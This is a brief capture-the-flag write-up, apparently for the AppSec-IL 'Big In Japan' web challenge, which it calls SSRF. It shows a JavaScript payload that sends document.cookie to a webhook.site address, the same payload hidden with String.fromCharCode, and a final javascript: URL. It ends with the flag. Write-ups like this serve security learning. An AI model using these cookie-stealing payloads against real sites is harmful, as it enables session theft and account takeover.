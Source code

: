 ```yaml
---
layout: default
title: BigInJapan
---
```


# Big In Japan

- **Category:** Web  
---

The challenge is based on SSRF vuln.

We injecting this payload, to the insecure url parameter: 
```
location.href='https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb?data=' + document.cookie;
```

We obufacte this by this way:
```
String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59
```

And then, the final payload is:
```
https://big-in-japan.appsecil.ctf.today/?url=jaVasCriPt:eval(String.fromCharCode(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,98,57,56,52,53,100,48,101,45,52,54,50,52,45,52,101,101,55,45,56,57,99,57,45,57,48,98,102,100,50,98,49,100,51,101,98,63,100,97,116,97,61,39,32,43,32,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))
```

And the image, from the webhook site:

![web hook](./Final.png)


The flag is `AppSec-IL{omedetto}`